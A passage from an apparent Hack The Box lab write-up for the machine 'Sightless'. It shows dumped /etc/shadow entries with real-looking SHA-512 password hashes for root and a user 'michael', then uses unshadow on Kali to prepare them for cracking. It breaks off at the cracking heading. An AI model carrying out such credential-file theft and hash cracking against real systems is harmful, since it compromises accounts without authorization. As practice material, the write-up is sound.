 ```c
uucp:*:19051:0:99999:7:::
proxy:*:19051:0:99999:7:::
www-data:*:19051:0:99999:7:::
backup:*:19051:0:99999:7:::
list:*:19051:0:99999:7:::
irc:*:19051:0:99999:7:::
gnats:*:19051:0:99999:7:::
nobody:*:19051:0:99999:7:::
_apt:*:19051:0:99999:7:::
node:!:19053:0:99999:7:::
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
```

## Privilege Escalation to michael

## Unshadowing

We copied the output of `/etc/passwd` and `/etc/shadow` into files on our local `Kali` machines and used `unshadow` to format it in order to try `cracking` the `hashes`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Sightless/files]
└─$ unshadow passwd shadow 
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:0:0:root:/root:/bin/bash
daemon:*:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:*:2:2:bin:/bin:/usr/sbin/nologin
sys:*:3:3:sys:/dev:/usr/sbin/nologin
sync:*:4:65534:sync:/bin:/bin/sync
games:*:5:60:games:/usr/games:/usr/sbin/nologin
man:*:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:*:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:*:8:8:mail:/var/mail:/usr/sbin/nologin
news:*:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:*:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:*:13:13:proxy:/bin:/usr/sbin/nologin
www-data:*:33:33:www-data:/var/www:/usr/sbin/nologin
backup:*:34:34:backup:/var/backups:/usr/sbin/nologin
list:*:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:*:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:*:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:*:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:*:100:65534::/nonexistent:/usr/sbin/nologin
node:!:1000:1000::/home/node:/bin/bash
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:1001:1001::/home/michael:/bin/bash
```

## Cracking the Hash
